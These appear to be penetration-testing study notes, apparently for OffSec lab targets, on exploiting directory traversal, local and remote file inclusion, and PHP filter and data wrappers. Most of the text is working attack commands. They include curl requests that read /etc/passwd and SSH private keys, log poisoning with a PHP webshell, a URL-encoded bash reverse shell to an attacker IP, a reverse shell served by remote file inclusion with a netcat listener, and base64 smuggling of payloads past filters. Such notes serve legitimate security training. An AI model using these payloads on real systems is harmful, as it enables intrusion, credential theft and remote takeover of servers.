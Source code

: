 ### Directory Traversal:
Never forget to check for the basics once you've identified potential traversal/inclusion!
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
For IIS targets spice can be found at: `C:\inetpub\logs\LogFiles\W3SVC1\` and `C:\inetpub\wwwroot\web.config`. Windows targets can potentially only be vulnerable when a `\` is provided. Be sure to try both. WAF, application logic or web server may filter on the `../` syntax. Be sure to try `%2E%2E/`.

### Example LFI Exploit:

1. Identify directory traversal in vulnerable web server
2. Identify a log file that the user can potentially write to, in the case of an Apache server: `/var/log/apache2/access.log`
3. Dump its contents, see what exactly the user can control. In this case, the contents of the `User Agent` header are written to the log
4. Repeat the request with Burp, but now with the `User Agent` header poisoned with some PHP:
```php
<?php echo system($_GET['cmd']); ?>
```
5. With this written to the log, curl the log once again, if vulnerable to LFI the log will be rendered in the browser, and the PHP will execute
```bash
curl http://vulnerable.ohno/../../../../../../../../../var/log/apache2/access.log?cmd=ls
```
6. Once you've confirmed you have code execution pass a URL encoded reverse shell to the cmd parameter. Don't forget to start your listener!
```bash
curl http://vulnerable.ohno/../../../../../../../../../var/log/apache2/access.log?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<Attacker IP>%2F4444%200%3E%261%22
```

### Example RFI Exploit:

Exploiting the same principle as LFI, except this server will actually render content that is not necessarily on the same server. Whack.
1. Identify a parameter that takes an argument for the page that the application should render, or similar. Eg.
http://mountaindesserts.com/meteor/index.php?page=cats.html
2. Start an http server from a directory containing a payload:
```bash
cd /usr/share/webshells/php; python3 -m http.server 80
```
3. Start a listener:
```bash
nc -nvlp 4444
```
4. Run your favourite command:
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://<your IP>/php-reverse-shell.php"
```

### Filter PHP Wrapper:

If a server is vulnerable to this then we can potentially view the contents of the PHP as it appears server side. This will enable us to inspect the code before it has been executed, allowing us to analyse application logic and potentially grab some creds.
```bash
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
```bash
echo ourBase64EncodedData | base64 -d
```

### Data PHP Wrapper:

filter can recover source code, data can achieve code execution:
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
If the server/firewall employs mechanisms for filtering for commands like `system()` we can base64 encode again to smuggle our payload:
```bash
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,<ourBase64EncodedPayload>?cmd=ls
```
Nb. while worth trying, this exploit is unlikely to be viable, the `allow_url_include` setting needs to be enabled, and it is not by default.